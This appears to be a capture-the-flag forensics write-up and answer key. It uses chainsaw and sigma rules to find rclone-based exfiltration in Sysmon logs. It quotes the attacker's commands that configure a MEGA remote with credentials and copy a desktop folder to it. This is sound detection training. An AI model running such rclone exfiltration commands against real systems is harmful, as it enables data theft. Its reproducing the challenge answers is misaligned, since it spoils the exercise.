 # Packet Cyclone

## Description

Pandora's friend and partner, Wade, is the one that leads the investigation into the relic's location. Recently, he noticed some weird traffic coming from his host. That led him to believe that his host was compromised. After a quick investigation, his fear was confirmed. Pandora tries now to see if the attacker caused the suspicious traffic during the exfiltration phase. Pandora believes that the malicious actor used rclone to exfiltrate Wade's research to the cloud. Using the tool called "chainsaw" and the sigma rules provided, can you detect the usage of rclone from the event logs produced by Sysmon? To get the flag, you need to start and connect to the docker service and answer all the questions correctly.

## Solution

First of all I cloned the [chainsaw repository]([https://github.com/WithSecureLabs/chainsaw) and build it.

In this challenge, you are given **evtx-logs** (Windows Event Logs) and a couple of **sigma-rules**.
I run chainsaw searching for rclone. ```rclone_execution.yaml``` gave me a hint.
```bash
./chainsaw.exe search rclone -i  evtx-events/ -j -o rclone.json
```

You have to ```nc``` the given ```address port``` to begin the prompt with the questions.

> What is the email of the attacker used for the exfiltration process? (for example: name@email.com)

* Answer: ```majmeret@protonmail.com```

* Explanation: By examining the ```rclone.json``` file stemming from the previous command, we see that the ```CommandLine``` of the first Event has value ```"\"C:\\Users\\wade\\AppData\\Local\\Temp\\rclone-v1.61.1-windows-amd64\\rclone.exe\" config create remote mega user majmeret@protonmail.com pass FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1qsU3EjhoKQw0rEoQqHyI"```. The email can be found from the command.

> What is the password of the attacker used for the exfiltration process? (for example: password123)

* Answer: ```FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1qsU3EjhoKQw0rEoQqHyI```

* Explanation: From the previous command, we can also extract the password.

> What is the Cloud storage provider used by the attacker? (for example: cloud)

* Answer: ```mega```

* Explanation: Again, we use the previous command and extract the cloud storage.

> What is the ID of the process used by the attackers to configure their tool? (for example: 1337)

* Answer: ```3820```

* Explanation: In the ```EventData```, you can observe the ```"ProcessId": 3820``` pair.

> What is the name of the folder the attacker exfiltrated; provide the full path. (for example: C:\Users\user\folder)

* Answer: ```C:\Users\Wade\Desktop\Relic_location```

* Explanation: By examining the rest of the events, you can find ```"CommandLine": "\"C:\\Users\\wade\\AppData\\Local\\Temp\\rclone-v1.61.1-windows-amd64\\rclone.exe\" copy C:\\Users\\Wade\\Desktop\\Relic_location\\ remote:exfiltration -v"```. You can extract easily the  folder the attacker exfiltrated.

> What is the name of the folder the attacker exfiltrated the files to? (for example: exfil_folder)

* Answer: ```exfiltration```

* Explanation: The folder, as seen from the last command, is exflitration (remote:exfiltration).